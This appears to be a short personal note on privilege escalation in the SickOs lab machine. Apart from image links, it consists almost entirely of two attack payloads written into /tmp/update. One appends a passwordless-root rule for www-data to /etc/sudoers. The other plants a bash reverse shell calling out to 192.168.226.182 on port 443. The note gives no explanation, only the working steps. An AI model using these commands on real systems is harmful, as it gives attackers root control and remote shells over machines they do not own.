










# SickOs
29 March 2022
07:12 PM

echo 'echo "www-data ALL=NOPASSWD: ALL" &gt;&gt; /etc/sudoers && chmod 440 /etc/sudoers' &gt; /tmp/update
wait for few minutes
or
printf '#!/bin/bash\nbash -i &gt;& /dev/tcp/192.168.226.182/443 0&gt;&1\n' &gt;&gt; /tmp/update
chmod 777 /tmp/update

